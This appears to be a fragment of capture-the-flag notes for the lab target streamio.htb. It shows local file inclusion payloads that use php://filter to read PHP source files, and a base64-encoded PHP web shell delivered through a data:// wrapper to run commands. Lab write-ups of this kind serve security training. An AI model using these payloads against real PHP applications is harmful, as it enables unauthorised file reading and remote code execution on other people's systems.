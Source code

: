 PHP wrapper to perform LFI:

```bash
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index{.php}
```

```bash
php://filter/read=convert.base64-encode/resource=configure{.php}
```

RCE

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```